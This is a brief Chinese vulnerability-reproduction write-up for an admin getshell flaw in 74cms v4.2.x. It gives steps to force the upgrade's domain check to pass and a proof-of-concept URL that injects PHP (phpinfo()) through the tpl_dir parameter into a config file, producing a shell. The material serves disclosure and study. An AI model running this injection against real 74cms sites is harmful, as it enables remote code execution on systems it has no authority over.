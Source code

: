 # 74cms v4.2.1 v4.2.129 后台getshell漏洞

## 漏洞描述

厂商：74cms
下载地址：http://www.74cms.com/download/index.html
关于版本：
新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。
注：此漏洞不用升级至最新版本也可使用。

## 漏洞复现

### 74cms升级到最新版

1， 先去官网下载 骑士人才系统基础版(安装包)
2， 将下载好的包进行安装
3， 进入后台点击查看如果不是最新版的话，请点击升级！
4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决
5， 搜索文件74cms\upload\Application\Admin\Controller\ApplyController.class.php
6， 查找所有$_SERVER['HTTP_HOST'] 改为 http://baidu.com 即可

### 漏洞演示

![image-20221207161107878](https://raw.githubusercontent.com/sunwu57/tuchuang/main/img/20250324211937795.png)

url:

```
 http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'
```

shell:

```
http://74cms.test/Application/Home/Conf/config.php
```

路径：

```
\74cms\upload\Application\Home\Conf\config.php
```

![image-20221207161145037](images/image-20221207161145037.png)

![image-20221207161151234](images/image-20221207161151234.png)